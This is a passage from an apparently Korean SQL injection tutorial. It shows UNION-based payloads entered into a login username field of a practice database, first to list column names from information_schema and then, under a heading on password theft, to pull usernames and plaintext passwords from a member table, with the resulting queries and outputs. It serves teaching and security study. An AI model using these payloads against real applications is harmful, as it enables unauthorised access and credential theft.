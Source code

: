 ```sql
입력: 1' UNION SELECT table_name, column_name, 1 FROM information_schema.columns WHERE table_schema = "sqlinjection" AND table_name = "member" LIMIT 1,1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' 
UNION 
SELECT table_name, column_name, 1 
FROM information_schema.columns 
WHERE table_schema = "sqlinjection" 
AND table_name = "member" 
LIMIT 1,1#' AND password = ''
 
|---------|------------|---------|
|username |description |is_admin |
|---------|------------|---------|
|member   |username    |true     |
|---------|------------|---------|
```

## ✳️ 비밀번호 탈취

```sql
SELECT username, password, 1 FROM member;

+----------+----------+---+
| username | password | 1 |
+----------+----------+---+
| admin    | 1234     | 1 |
| user01   | 1234     | 1 |
| user02   | 1234     | 1 |
+----------+----------+---+
3 rows in set (0.00 sec)
```

```sql
입력: 1' UNION SELECT username, password, 1 FROM member LIMIT 1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' 
UNION 
SELECT username, password, 1 
FROM member 
LIMIT 1#' AND password = ''

|---------|------------|---------|
|username |description |is_admin |
|---------|------------|---------|
|admin    |1234        |true     |
|---------|------------|---------|
```
